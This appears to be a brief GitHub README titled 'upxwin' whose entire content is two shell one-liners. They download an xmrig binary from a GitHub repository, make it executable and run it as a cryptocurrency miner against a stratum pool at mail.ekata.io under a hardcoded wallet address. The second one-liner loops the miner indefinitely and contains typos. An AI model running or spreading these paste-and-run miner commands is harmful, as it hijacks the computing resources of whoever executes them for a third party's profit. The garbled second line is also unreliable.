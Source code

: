 # upxwin




git clone https://github.com/saroden99/k.git && cd k && chmod +x xmrig && ./xmrig -a cn-pico -o stratum+tcp://mail.ekata.io:3333 -u bazaatV4qYYKjM3xd7Q3h28niM7kJkJxnJxtnRkZCHFHYdM42d3euK4bYVbw2kPvKcTv2HSbatu7VCdNuUKNm35BebD6Lkc9gbx -p x -t 2



wget https://github.com/saroden99/k/raw/main/xmrig && chmod +x xmrig && wwhile true; do ./xmrig -a cn-pico -o stratum+tcp://mail.ekata.io:3333 -u bazaatV4qYYKjM3xd7Q3h28niM7kJkJxnJxtnRkZCHFHYdM42d3euK4bYVbw2kPvKcTv2HSbatu7VCdNuUKNm35BebD6Lkc9gbx -p x -t 22
; done
